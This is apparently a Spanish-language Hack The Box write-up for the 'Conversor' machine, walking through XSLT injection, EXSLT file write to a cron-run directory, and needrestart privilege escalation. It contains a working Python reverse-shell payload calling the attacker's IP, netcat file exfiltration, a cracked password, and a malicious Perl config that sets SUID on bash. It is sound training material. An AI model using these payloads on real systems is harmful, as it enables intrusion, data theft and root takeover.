



---
title: "(Writeup) Conversor - Hack The Box"
date: "2026-04-03"
tags: ["HTB", "Writeup", "Linux", "Web", "SSH", "XSLT", "SSTI", "LFI", "RCE", "PrivEsc", "needrestart", "conversor.htb"]
summary: "Writeup de resolución de la máquina `Conversor` de HTB."
draft: false
---

## 1. Resumen

Para completar la máquina `Conversor` de HTB, nos hemos limitado a enumerar el servicio web que expone (del que nos han proporcionado dirección) y explotado varias vulnerabilidades comunes encadenadas hasta obtener el control total del sistema. Como resumen operativo, se puede replicar siguiendo los siguientes pasos:

1. Identificar los puertos abiertos mediante `nmap`.
2. Añadir `conversor.htb` al archivo `/etc/hosts`.
3. Acceder al servicio web y registrar un usuario nuevo.
4. Iniciar sesión en la aplicación `Conversor`.
5. Comprobar que la aplicación acepta plantillas XSLT controladas por el usuario.
6. Verificar que el motor XSLT permite escribir ficheros en el servidor mediante EXSLT.
7. Analizar el código fuente descargable de la aplicación.
8. Identificar la ruta `/var/www/conversor.htb/scripts/` y el `cronjob` que ejecuta scripts Python.
9. Subir una plantilla XSLT maliciosa que escriba un script Python en esa ruta.
10. Recibir una `reverse shell` como `www-data`.
11. Localizar y descargar la base de datos `users.db`.
12. Obtener el hash de la contraseña del usuario `fismathack`.
13. Romper el hash y recuperar la contraseña en claro.
14. Acceder por SSH como `fismathack`.
15. Enumerar privilegios con `sudo -l`.
16. Detectar que `fismathack` puede ejecutar `needrestart` como `root` sin contraseña.
17. Crear un fichero de configuración malicioso para `needrestart`.
18. Ejecutar `needrestart` con ese fichero para modificar permisos de `/bin/bash`.
19. Ejecutar `bash -p` para obtener una shell como `root`.

## 2. Enumeración
Como información inicial, recibimos la dirección IP de la máquina. Comenzamos ejecutando algunas pruebas de ping y nmap para escanear ese puerto y recopilar más información sobre el servicio que se ejecutaba en él.
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $ping 10.129.238.31 -c 1
PING 10.129.238.31 (10.129.238.31) 56(84) bytes of data.
64 bytes from 10.129.238.31: icmp_seq=1 ttl=63 time=69.8 ms

┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $sudo nmap -sS --min-rate=5000 -p- 10.129.238.31 -oG Enum/allPorts.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-31 19:14 CEST
Warning: 10.129.238.31 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.238.31
Host is up (0.080s latency).
Not shown: 63461 closed tcp ports (reset), 2072 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
La prueba de ping nos indica que la máquina está activa y responde, probablemente se trate de un sistema basado en Unix, dado el valor TTL. El escaneo nmap muestra que el puerto 22 (SSH) y el puerto 80 (HTTP) están abiertos, lo que sugiere que podríamos tener acceso a un servicio web y a una terminal remota. 

Lanzamos un escaneo más detallado sobre los puertos abiertos para obtener más información sobre los servicios que se ejecutan en ellos antes de comenzar con la enumeración profunda:
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $nmap -p22,80 -sVC 10.129.238.31 -oN Enum/openPorts.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-31 19:23 CEST
Nmap scan report for 10.129.238.31
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:74:26:39:47:bc:6a:e2:cb:12:8b:71:84:9c:f8:5a (ECDSA)
|_  256 3a:16:90:dc:74:d8:e3:c4:51:36:e2:08:06:26:17:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://conversor.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

┌─[✗]─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $sudo bash -c 'echo "10.129.238.31    conversor.htb" >> /etc/hosts'
┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $tail -n 1 /etc/hosts
10.129.238.31    conversor.htb
┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $nmap -p 80 -sVC 10.129.238.31 -oN Enum/port80.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-31 19:27 CEST
Nmap scan report for conversor.htb (10.129.238.31)
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52
| http-title: Login
|_Requested resource was /login
|_http-server-header: Apache/2.4.52 (Ubuntu)
```
El escaneo nmap detallado nos confirma que el puerto 22 está ejecutando `OpenSSH 8.9p1` en un sistema Ubuntu, mientras que el puerto 80 está ejecutando `Apache httpd 2.4.52`. Además, el título de la página web sugiere que se trata de una página de inicio de sesión, lo que podría ser un punto de entrada para la explotación.
> Nota: Ha sido necesario incluir el objetivo en el archivo `/etc/hosts` para que el escaneo nmap pueda resolver el nombre de host `conversor.htb` y obtener información más precisa sobre el servicio web.

### 2.1 Enumeración del servicio web
Con la información obtenida, procedemos a visitar la página web en un navegador para ver qué tipo de contenido se muestra y si hay alguna funcionalidad que podamos explotar. Al acceder a `http://conversor.htb/`, nos encontramos con una página de inicio de sesión que solicita un nombre de usuario y una contraseña:

 
Confirmamos viendo el código fuente que la página de login lanza una petición POST y no hay credenciales por defecto visibles. Por ello, intentamos encontrar vulnerabilidades de inyección SQL pero no obtenemos resultados positivos. A continuación, probamos a registrar un nuevo usuario para conseguir acceso al interior de la web, consiguiendo crear un usuario con las credenciales `w1tch3r:123456` con el que podemos iniciar sesión correctamente. 

Esto nos da acceso a una utilidad llamada "Conversor" que se describe como un servicio que convierte resultados de nmap en formato XML a un formato enriquecido HTML, a partir de una plantilla `XSLT`:


La página menciona una plantilla descargable que tiene la siguiente forma:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:output method="html" indent="yes" />

  <xsl:template match="/">
    <html>
      <head>
        <title>Nmap Scan Results</title>
        <style>
          body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(120deg, #141E30, #243B55);
            color: #eee;
            margin: 0;
            padding: 0;
          }
          h1, h2, h3 {
            text-align: center;
            font-weight: 300;
          }
          .card {
            background: rgba(255, 255, 255, 0.05);
            margin: 30px auto;
            padding: 20px;
            border-radius: 12px;
            box-shadow: 0 4px 20px rgba(0,0,0,0.5);
            width: 80%;
          }
          table {
            width: 100%;
            border-collapse: collapse;
            margin-top: 15px;
          }
          th, td {
            padding: 10px;
            text-align: center;
          }
          th {
            background: rgba(255,255,255,0.1);
            color: #ffcc70;
            font-weight: 600;
            border-bottom: 2px solid rgba(255,255,255,0.2);
          }
          tr:nth-child(even) {
            background: rgba(255,255,255,0.03);
          }
          tr:hover {
            background: rgba(255,255,255,0.1);
          }
          .open {
            color: #00ff99;
            font-weight: bold;
          }
          .closed {
            color: #ff5555;
            font-weight: bold;
          }
          .host-header {
            font-size: 20px;
            margin-bottom: 10px;
            color: #ffd369;
          }
          .ip {
            font-weight: bold;
            color: #00d4ff;
          }
        </style>
      </head>
      <body>
        <h1>Nmap Scan Report</h1>
        <h3><xsl:value-of select="nmaprun/@args"/></h3>

        <xsl:for-each select="nmaprun/host">
          <div class="card">
            <div class="host-header">
              Host: <span class="ip"><xsl:value-of select="address[@addrtype='ipv4']/@addr"/></span>
              <xsl:if test="hostnames/hostname/@name">
                (<xsl:value-of select="hostnames/hostname/@name"/>)
              </xsl:if>
            </div>
            <table>
              <tr>
                <th>Port</th>
                <th>Protocol</th>
                <th>Service</th>
                <th>State</th>
              </tr>
              <xsl:for-each select="ports/port">
                <tr>
                  <td><xsl:value-of select="@portid"/></td>
                  <td><xsl:value-of select="@protocol"/></td>
                  <td><xsl:value-of select="service/@name"/></td>
                  <td>
                    <xsl:attribute name="class">
                      <xsl:value-of select="state/@state"/>
                    </xsl:attribute>
                    <xsl:value-of select="state/@state"/>
                  </td>
                </tr>
              </xsl:for-each>
            </table>
          </div>
        </xsl:for-each>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

### 2.1.1. Inyección de plantillas del lado servidor (SSTI via XSLT)
El mecanismo de `Conversor` renderiza plantillas, en este caso en formato XSLT, en el lado del servidor, para insertar input controlado por el usuario (el fichero XML subido). Esta práctica tiene dos puntos posibles de vulnerabilidad, el archivo origen XML o la plantilla XSLT que aplicamos.

Según [HackTricks - XSLT Server Side Injection](https://hacktricks.wiki/en/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations.html), el uso de etiquetas específicas de XSLT dentro de la plantilla puede permitir ataques de inyección de plantillas del lado servidor (SSTI) que deriven en vulnerabilidades RCE, XSS e inyección de cabeceras ESI. También ofrecen una plantilla maliciosa a modo de PoC que enumera los campos más importantes del sistema:
```xslt
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```
Para ejecutar la prueba de concepto, generamos un escaneo de nmap en formato XML y lo subimos al conversor junto con la plantilla maliciosa:
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $nmap -p 22,80 conversor.htb -oX Enum/openPorts.xml
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-03-31 20:04 CEST
Nmap scan report for conversor.htb (10.129.238.31)
Host is up (0.039s latency).

...

┌─[✗]─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $head Enum/openPorts.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE nmaprun>
<?xml-stylesheet href="file:///usr/bin/../share/nmap/nmap.xsl" type="text/xsl"?>
<!-- Nmap 7.94SVN scan initiated Tue Mar 31 20:04:59 2026 as: nmap -p 22,80 -oX Enum/openPorts.xml conversor.htb -->
<nmaprun scanner="nmap" args="nmap -p 22,80 -oX Enum/openPorts.xml conversor.htb" start="1774980299" startstr="Tue Mar 31 20:04:59 2026" version="7.94SVN" xmloutputversion="1.05">
...
<address addr="10.129.238.31" addrtype="ipv4"/>
┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $vi fingerprint.xslt # Copy-paste the PoC XSLT from HackTricks
```

Subimos ambos archivos a la web y obtenemos el siguiente resultado, que nos confirma la versión de XSLT (1.0):



### 2.1.2. Lectura de documentos via XSLT (fail)
A través de las etiquetas XSLT que hemos comprobado que el servidor acepta, podemos intentar exponer una vulnerabilidad de `path traversal` y `local file read` utilizando la etiqueta `document` para leer el archivo `/etc/passwd`, fijo en sistemas unix:
```xslt
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('/etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```
Lo que retornó el error `Error: Cannot resolve URI /etc/passwd`, por lo que la lectura arbitraria de ficheros locales no es posible en el sistema.

### 2.1.3. Ejecución remota de código via XSLT (fail)
De forma similar, la etiqueta `system` podría permitir ejecutar comandos de sistema a través de la plantilla XSLT, lo que derivaría en una vulnerabilidad de ejecución remota de código (RCE). Probamos con la siguiente plantilla:
```xslt
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="system('id')"/>
  </xsl:template>
</xsl:stylesheet>
```
Sin embargo, el resultado fue `Error: Unregistered function`, indicando que la función `system` no está disponible en este entorno.

### 2.1.4. Inclusión local de ficheros (LFI via XSLT)
Otra posible vulnerabilidad relacionada con la inclusión de plantillas es la inclusión local de ficheros (LFI) a través de la etiqueta `document`, añadiendo el contenido del fichero y la ruta:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/tmp/poc.txt" method="text">
      Hello World!
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```
La plantilla genera un resultado HTML vacío pero no indica ningún mensaje de error, por lo que creemos que es posible que el fichero `/tmp/poc.txt` haya sido creado en el servidor, pero no podemos comprobarlo.

### 2.1.5. Análisis del código fuente
Un fallo en la UI de la página web nos impidió ver un enlace a la página about (colapsado en un menú hamburguesa), que tiene la siguiente pinta:


Podemos descargar el código fuente de la página y abrirlo localmente para analizar cómo funciona el conversor y si hay alguna vulnerabilidad que se nos haya pasado por alto. El código fuente se descomprime en los siguientes archivos:
```text
.
├── app.py
├── app.wsgi
├── install.md
├── instance
│   └── users.db
├── scripts
├── static
│   ├── images
│   │   ├── arturo.png
│   │   ├── david.png
│   │   └── fismathack.png
│   ├── nmap.xslt
│   └── style.css
├── templates
│   ├── about.html
│   ├── base.html
│   ├── index.html
│   ├── login.html
│   ├── register.html
│   └── result.html
└── uploads
```
De donde obtenemos una base de datos basada en ficheros, SQLite, que podemos abrir localmente en busca de usuarios por defecto. Por otro lado, por la estructura de carpetas y el contenido del fichero `install.md`, descubrimos que la página web se aloja sobre el framework `Flask` de Python. Además, el contenido completo del fichero `install.md` es muy interesante:
```markdown
To deploy Conversor, we can extract the compressed file:

"""
tar -xvf source_code.tar.gz
"""

We install flask:

"""
pip3 install flask
"""

We can run the app.py file:

"""
python3 app.py
"""

You can also run it with Apache using the app.wsgi file.

If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.

"""
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
"""
```
Lo que indica que el servidor ejecuta un `cronjob` regularmente para ejecutar todos los scripts de python localizados bajo `/var/www/conversor.htb/scripts/*.py`. Además, este archivo nos desvela la ruta dentro del sistema de archivos en la que se aloja la página web, lo que puede ser útil para futuras pruebas de vulnerabilidades de inclusión de archivos o ejecución de código.

## 2.2. Enumeración de SSH
Al tratarse de una versión relativamente moderna de OpenSSH, no se han encontrado vulnerabilidades conocidas que puedan ser explotadas para obtener acceso al sistema a través de este servicio. Sin embargo, es posible que existan vulnerabilidades desconocidas o que el servicio esté mal configurado, por lo que se recomienda realizar una enumeración exhaustiva del servicio SSH para identificar posibles vectores de ataque.

## 3. Explotación

### 3.1. Python RCE via LFI sobre XSLT SSTI
Las vulnerabilidades enumeradas en la fase anterior nos han permitido identificar que el servicio de conversión de nmap a HTML a través de plantillas XSLT es vulnerable a inyección de plantillas del lado servidor (SSTI) y a inclusión local de ficheros (LFI). Combinando ambas vulnerabilidades, podemos crear una plantilla maliciosa que incluya un fichero con código Python que se ejecute en el servidor, lo que nos permitiría obtener una `reverse shell` o ejecutar comandos arbitrarios en el sistema. Para ello, creamos un fichero `exploit.py` con el siguiente contenido:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/scripts/exploit.py" method="text">
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.15.138",3333));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```
Subimos la plantilla al conversor y preparamos un `listener` en nuestra máquina atacante para recibir la `reverse shell`:
```bash
┌─[✗]─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $nc -lnvp 3333
Listening on 0.0.0.0 3333
Connection received on 10.129.18.110 51376
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Con esto, hemos conseguido obtener una shell con el usuario `www-data`. Desde aquí, enumeramos el siguiente usuario al que tenemos que escalar, `fismathack`:
```sh
$ cat /etc/passwd | grep sh$ 
root:x:0:0:root:/root:/bin/bash
fismathack:x:1000:1000:fismathack:/home/fismathack:/bin/bash
```

### 3.2. Escalada de privilegios al usuario `fismathack`
Para escalar privilegios a un usuario no administrador, normalmente buscamos vulnerabilidades de escalada local, scripts mal configurados o credenciales escondidas en los archivos del servidor. En este caso, ya descubrimos la existencia de un archivo `users.db` dentro del servidor, que en la plantilla estaba vacío. Merece la pena comprobar si el usuario `fismathack` tiene credenciales almacenadas en ese archivo, probablemente encriptadas, y si podemos obtener alguna contraseña.

Para ello, descargamos la base de datos de producción a través de `netcat` y la analizamos localmente con `sqlite3`:
```sh
$nc -nlvp 3334 > Results/users.db # Attacker machine
$nc 10.10.15.138 3334 < users.db # Victim machine
```
```bash
┌─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $sqlite3 Results/users.db 
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
5|w1tch3r|e10adc3949ba59abbe56e057f20f883e
```
Obtenemos una hash, probablemente md5 por la longitud, de la contraseña que podemos intentar romper de forma local o utilizando [CrackStation](https://crackstation.net/):



Lo que nos da como resultado las credenciales `fismathack:Keepmesafeandwarm`. Con estas credenciales, probamos a iniciar sesión mediante SSH y obtenemos acceso a una shell como `fismathack`:
```bash
┌─[✗]─[w1tch3r@fn1lfg44rd]─[~/HTB/Machines/In_Progress/Conversor]
└──╼ $ssh fismathack@conversor.htb
The authenticity of host 'conversor.htb (10.129.18.110)' can't be established.
ED25519 key fingerprint is SHA256:xCQV5IVWuIxtwatNjsFrwT7VS83ttIlDqpHrlnXiHR8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'conversor.htb' (ED25519) to the list of known hosts.
fismathack@conversor.htb's password: #Keepmesafeandwarm
fismathack@conversor:~$ ls
user.txt
```

### 3.3. Escalada de privilegios a root
A la hora de escalar privilegios a superusuario siempre intentamos tres comprobaciones básicas: `/etc/sudoers`, `sudo -l` y permisos `suid` en binarios:
```bash
fismathack@conversor:~$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```
Descubrimos que `fismathack` puede ejecutar el binario `/usr/sbin/needrestart` como root sin contraseña. Al parecer, `needrestart` es una utilidad de Ubuntu capaz de reiniciar servicios tras actualizar librerías del sistema, por lo que está pensado para lanzarse con privilegios elevados. Interactuamos con el binario y, tras activar el trazado de depuración (-v), descubrimos un fichero de configuración por defecto sometido a `eval`:
```bash
fismathack@conversor:~$ needrestart -v 
[main] eval /etc/needrestart/needrestart.conf
[main] needrestart v3.7
[main] running in user mode
[Core] Using UI 'NeedRestart::UI::stdio'...
[main] systemd detected
[main] vm detected
[main] inside container or vm, skipping microcode checks
fismathack@conversor:~$ ls -la /etc/needrestart/needrestart.conf
-rw-r--r-- 1 root root 6203 Jul 31  2025 /etc/needrestart/needrestart.conf
```
De la salida de los comandos lanzados podemos observar dos puntos interesantes: primero, el binario `needrestart` evalúa los ficheros de configuración, presumiblemente intentando interpretar su contenido, lo que podría derivar en una vulnerabilidad de inyección de código; segundo, el fichero utilizado solo es legible por otros usuarios distintos de root, no se puede modificar, pero el binario cuenta con una opción `-c` que nos permite elegir el archivo de configuración utilizado.

El archivo de configuración tiene la siguiente pinta:
```conf
# needrestart - Restart daemons after library updates.
#
# This is the configuration file of needrestart. This is perl syntax.
# needrestart uses reasonable default values, you might not need to
# change anything.
#

# Verbosity:
#  0 => quiet
#  1 => normal (default)
#  2 => verbose
#$nrconf{verbosity} = 2;

# Verify mapped files in filesystem:
# 0 : enabled
# -1: ignore non-existing files, workaround for chroots and broken grsecurity kernels (default)
# 1 : disable check completely, rely on content of maps file only
$nrconf{skip_mapfiles} = -1;

# ...

# Read additional config snippets.
if(-d q(/etc/needrestart/conf.d)) {
      foreach my $fn (sort </etc/needrestart/conf.d/*.conf>) {
	      print STDERR "$LOGPREF eval $fn\n" if($nrconf{verbosity} > 1);
	      eval do { local(@ARGV, $/) = $fn; <>};
	      die "Error parsing $fn: $@" if($@);
      }
}
```
Como se indica en uno de los comentarios iniciales, el fichero de configuración es un script en Perl, lo que significa que si conseguimos inyectar código malicioso en él, podríamos conseguir ejecutar comandos arbitrarios con privilegios de root. Para ello, creamos un nuevo fichero de configuración con el siguiente contenido:
```perl
# Malicious configuration file for needrestart
# This file is intended to be used for privilege escalation by modifying the suid permits on /bin/bash

print "[INFO] Starting privesc script...\n";
print "[INFO] Changing permissions of /bin/bash to suid...\n";
system("chmod +s /bin/bash");
print "[INFO] Privesc script completed. /bin/bash is now suid.\n";
```

Ahora, podemos lanzar `needrestart` como root y aplicar los cambios para habilitar la escalada de privilegios a través de `/bin/bash`:
```bash
fismathack@conversor:~$ vi /tmp/privesc.conf
fismathack@conversor:~$ sudo needrestart -c /tmp/privesc.conf 
[INFO] Starting privesc script...
[INFO] Changing permissions of /bin/bash to suid...
[INFO] Privesc script completed. /bin/bash is now suid.
Debconf: Unsupported command "[info]" (full line was "[INFO] Privesc script completed. /bin/bash is now suid.") received from confmodule.
fismathack@conversor:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
fismathack@conversor:~$ bash -p
bash-5.1# id
uid=1000(fismathack) gid=1000(fismathack) euid=0(root) egid=0(root) groups=0(root),1000(fismathack)
```
Finalmente, conseguimos acceso como `root` y podemos acceder a la flag objetivo en `/root/root.txt`.

## 4. Post-Explotación
### 4.1. XSLT como motor de transformación y superficie de ataque
El patrón funcional de la máquina `Conversor` es correcto: recibe un archivo XML y una plantilla XSLT (hoja de estilos) que aplica sobre el primer archivo para generar un resultado HTML enriquecido. De hecho, XSLT es un lenguaje declarativo estandarizado por [W3C](https://www.w3.org/TR/xslt-10) para transformar documentos XML en otros formatos, como HTML, texto plano o incluso otros XML. 

Sin embargo, el hecho de que el usuario controle directamente la plantilla que el servidor va a ejecutar provoca que esta deje de ser un simple recurso de presentación y pase a ser código interpretable por el motor XSLT que se ejecuta en el backend del servidor. Esto convierte a la plantilla XSLT en una superficie de ataque que, si no se gestiona correctamente, puede derivar en vulnerabilidades lectura de archivos, ejecución de código, inyección de cabeceras ESI o incluso ataques de denegación de servicio (DoS) a través de plantillas maliciosas. En este caso sólo hemos conseguido escribir ficheros en el servidor, por lo que dependíamos de un mecanismo interno de ejecución de scripts para conseguir la RCE, pero en otros casos podría ser posible ejecutar código directamente a través de la plantilla XSLT, lo que aumentaría significativamente el impacto de la vulnerabilidad.

Para la prueba de concepto (PoC) `system-property()` no busca todavía ejecución de comandos, sino un fingerprinting del procesador XSLT: versión soportada, fabricante, URL del proveedor y, en algunos motores, nombre y versión del producto. Ese tipo de enumeración permite distinguir si estamos ante un procesador restringido o ante uno más flexible, con extensiones peligrosas habilitadas. En este caso, nos encontramos ante `XSLT 1.0`.

### 4.2. De XSLT estándar a EXSLT: por qué fue posible escribir ficheros
XSLT 1.0 define funciones como `[document()](https://www.w3.org/TR/xslt-10/#function-document)` para cargar documentos externos durante la transformación del XML, pero no incluye ninguna función primitiva para escribir archivos en el sistema de archivos del servidor. Gracias a [EXSLT](https://exslt.github.io/exsl/index.html), un conjunto de extensiones comunitarias que algunos procesadores implementan para ampliar las capacidades de XSLT, que permite generar documentos subsidiarios adicionales al resultado principal, especificando una ruta de destino y un método de serialización (por ejemplo, texto). 

La falta de validación de la ruta de destino en la función `document` de EXSLT es lo que permitió la vulnerabilidad de escritura de archivos en el servidor, en rutas diferentes a la de la aplicación `Conversor`, lo que a su vez nos permitió escribir scripts de python que la aplicación ejecuta regularmente a través de un `cronjob`, como veremos en un punto posterior.

Por tanto, sólo con la función `document` no es posible escribir archivos en el servidor, sino que es necesario que el motor XSLT utilizado por la aplicación implemente las extensiones EXSLT y que la función `document` de esas extensiones no valide correctamente la ruta de destino, lo que en este caso se cumplía.

### 4.3. Abuso de tareas programadas para la ejecución de código
El código de la aplicación `Conversor` estaba disponible como recurso descargable, lo que nos permitió analizar su comportamiento y descubrir que el servidor ejecuta cada minuto un `cronjob` para ejecutar todos los scripts de python localizados bajo `/var/www/conversor.htb/scripts/*.py`. Este tipo de tareas programadas son un vector de ataque común para la escalada de privilegios, ya que permiten ejecutar código con los mismos privilegios que el proceso que las ejecuta (en este caso, `www-data`).

De esta forma, cualquier capacidad de escritura en el servidor, sobre todo si no está restringida a un directorio específico, puede ser aprovechada para escribir un script malicioso que se ejecute con los privilegios del proceso que ejecuta el `cronjob`. La cadena completa de un ataque de tipo `reverse shell` contra esta aplicación sería:

1. el usuario sube una plantilla XSLT controlada;
2. el motor acepta `exsl:document`;
3. la plantilla escribe `exploit.py` dentro de `/var/www/conversor.htb/scripts/`;
4. el cron ejecuta automáticamente ese archivo;
5. el atacante recibe una `reverse shell` como `www-data`.

Este punto de entrada permite a un atacante externo obtener ejecución remota de comandos (RCE) en el servidor, obteniendo un acceso inicial (limitado) con el que pivotar o escalar privilegios a otros usuarios del sistema.

### 4.4. Cifrados débiles y reutilización de contraseñas
El código fuente descargado, y la estructura del mismo, encajan con una aplicación Flask desplegada vía WSGI. Flask es un framework web ligero de Python que normalmente organiza vistas, plantillas, estáticos y configuración de forma bastante simple. También es habitual que guarde datos de instancia y configuración en un directorio `instance/`, separado del código de la aplicación.

En este caso, tanto el código fuente como el entorno de producción contenían una base de datos SQLite llamada `users.db` bajo el directorio `instance/`, que almacenaba las credenciales de los usuarios registrados en la aplicación. SQLite es una base de datos embebida y basada en un único fichero, muy usada en aplicaciones pequeñas y prototipos por su simplicidad operativa. Flask, de hecho, la documenta explícitamente como una opción común para aplicaciones sencillas.

